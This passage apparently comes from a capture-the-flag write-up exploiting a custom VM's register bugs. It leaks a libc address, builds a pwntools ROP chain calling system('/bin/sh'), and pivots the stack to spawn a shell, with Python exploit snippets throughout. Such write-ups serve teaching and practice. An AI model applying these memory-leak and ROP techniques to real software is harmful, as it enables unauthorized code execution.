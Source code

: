 - The `set_r` function initializes the specified registers in `registers` with the corresponding values in `values`.

- The `add_r` function increments the values in the specified registers by the corresponding immediate values in `values`.

- The `read_r` function exploits the `char` vulnerability to read memory at an address specified by `offset` into the specified registers. It first sets all registers in `registers` to zero, then uses the `ADD` instruction to increment each register to the target address, allowing for negative offsets using `% 2**8`.


## Exploitation
Since the return address is located immediately before the `data` pointer, we quickly though about writing a ROP chain in the `data` section and then performing a stack pivot to execute it. We found a convenient `pop rsp; ret` gadget in libc.

Our first task is to load the libc base address into four consecutive registers (from the set of eight available registers). To do this, we read the address located at offset `-13`, which is a libc address, and then use the `ADDI` vulnerability to subtract the offset from the leaked address, to get libc base.

```py
code = read_r(code, [0, 1, 2, 3], -13)
code = add_r(code, [0, 1], [(-596383 % 2**16), -((596383) >> 16) % 2**16]) # set libc base
```

To make it easier to write the ROP chain directly into the `data` section, we created another helper function:
```py
def write_rop(code, offset, addr):
    for i in range(4):
        code += f"""
            MOVI {4+i}, {((addr)>> i*16) & 0xffff}
            ADD {4+i}, {i}
            STORE {4+i}, {offset*8+2*i}
            SHR {4+i}, 8
            STORE {4+i}, {offset*8+2*i+1} 
        """
    return code
```
The function helps break down a 64-bit address (`addr`) into chunks that can be stored in the `data` section byte-by-byte. We decided to use the `STORE` instruction instead of `STOREW` because of endianess. 

Then we just created a pwntools `ROP()` object to create a ROP chain (with a lot of `ret` instructions to make `rsp` higher so that functions can create their stack frames):

```py
rop = ROP(libc)
rop.raw("A"*8)
for i in range(401): rop.raw(rop.ret.address)
rop.system(next(libc.search(b"/bin/sh\x00")))
a = rop.chain()
```
```py
for i in range(0, len(a), 8):
    code = write_rop(code, i//8, u64(a[i:i+8])) # write rop chain in data
```
